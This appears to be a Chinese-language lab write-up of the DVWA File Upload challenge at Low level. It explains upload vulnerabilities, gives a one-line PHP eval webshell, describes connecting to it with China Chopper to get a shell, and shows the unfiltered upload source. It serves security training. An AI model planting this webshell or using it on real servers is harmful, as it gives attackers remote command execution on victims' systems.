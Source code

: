 <br>

# File_Upload文件上传

>攻击者通过上传可执行的木马脚本等，从而获取服务器端可执行命令的权限，文件上传漏洞通常是对用户上传的文件类型没有进行严格的过滤检查。
>
>利用文件上传漏洞必须满足：**1.文件能够成功被上传；2.上传文件的路径可知；3.上传的文件可以被执行**

## Low

<img src="/images/ctf-web-dvwa/image-20221010214513667.png" alt="image-20221010214513667" style="zoom:67%;" />

没有任何过滤的文件上传，任何类型的文件都可以被上传，而且还会告知上传路径

那么可以上传一个一句话木马，并使用中国菜刀来连接：

```php
<?php eval(@$_POST['a']); ?>
```

中国菜刀中，地址栏填写上传后一句话木马的路径，软件会自动访问我们填写的地址，并给`c`变量post

值。以小马传大马，从而成功获得网站的shell

<img src="/images/ctf-web-dvwa/image-20221010221841914.png" alt="image-20221010221841914" style="zoom:67%;" />

成功获取shell，并读取了网站目录

<img src="/images/ctf-web-dvwa/image-20221010222029634.png" alt="image-20221010222029634" style="zoom:67%;" />

另外，也可以通过POST的方式访问这个木马来执行任意命令：

<img src="/images/ctf-web-dvwa/image-20221010222552161.png" alt="image-20221010222552161" style="zoom:67%;" />

最后简单看一看源码： 这里没有加任何过滤措施

```php
<?php
if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );//此函数返回路径中的文件名部分
    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
?> 
```
